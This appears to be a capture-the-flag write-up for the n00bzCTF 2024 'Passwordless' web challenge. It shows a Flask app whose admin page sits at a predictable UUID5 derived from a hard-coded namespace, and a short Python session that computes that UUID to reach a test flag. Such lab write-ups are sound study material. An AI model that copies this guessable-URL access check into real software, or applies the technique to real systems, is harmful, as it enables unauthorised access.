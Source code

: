 ```yaml
---
title: "2024 n00bzCTF"
date: 2024-08-03T18:26:59-05:00
tags: ['web']
---
```


## Challenges
- [Passwordless](#passwordless)

### Passwordless
Tired of storing passwords? No worries! This super secure website is passwordless!
- - -
For this challenge, we had to exploit a program weakness.

**app.py**
```py
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
Looking at the source, the flag can be retrieved via the `user_page()` route. The route compares the **UID** input from the user to the hard-coded **UUID5**.

#### Solution
In a Python terminal...
```
>>> import uuid
>>> leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
>>> str(uuid.uuid5(leet, 'admin123'))
'3c68e6cc-15a7-59d4-823c-e7563bbb326c'
>>>
```

Now that we have our target **UID**, let's send it to the route: `http://127.0.0.1:1337/3c68e6cc-15a7-59d4-823c-e7563bbb326c`

![Image of flag](passwordless-solve.png)

Voila! We have our flag: `n00bz{f4k3_fl4g_f0r_t35t1ng}`
